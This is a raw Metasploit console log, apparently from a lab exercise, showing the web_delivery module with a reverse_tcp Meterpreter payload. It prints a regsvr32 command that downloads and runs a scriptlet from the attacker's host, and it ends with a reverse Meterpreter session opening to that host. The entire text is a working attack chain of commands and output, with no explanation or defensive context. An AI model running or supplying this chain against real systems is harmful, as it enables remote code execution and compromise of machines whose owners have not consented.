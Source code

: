 Module options (exploit/multi/script/web_delivery):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.9.81.62       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   3   Regsvr32


msf6 exploit(multi/script/web_delivery) > run

[-] Exploit failed: python/meterpreter/reverse_tcp is not a compatible payload.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.9.81.62:4444
[*] Using URL: http://0.0.0.0:8080/eHDL3qPnhov
msf6 exploit(multi/script/web_delivery) > [*] Local IP: http://172.22.220.212:8080/eHDL3qPnhov
[*] Server started.
[*] Run the following command on the target machine:
regsvr32 /s /n /u /i:http://10.9.81.62:8080/eHDL3qPnhov.sct scrobj.dll
[*] 10.10.5.73       web_delivery - Handling .sct Request

msf6 exploit(multi/script/web_delivery) > sessions -t

Active sessions
===============

No active sessions.

msf6 exploit(multi/script/web_delivery) >
[*] 10.10.5.73       web_delivery - Handling .sct Request
[*] 10.10.5.73       web_delivery - Delivering Payload (1884 bytes)
[*] 10.10.5.73       web_delivery - Delivering Payload (1900 bytes)
[*] Sending stage (175174 bytes) to 10.10.5.73
[*] Meterpreter session 1 opened (10.9.81.62:4444 -> 10.10.5.73:49313) at 2020-11-13 21:11:27 +0530
[*] Sending stage (175174 bytes) to 10.10.5.73
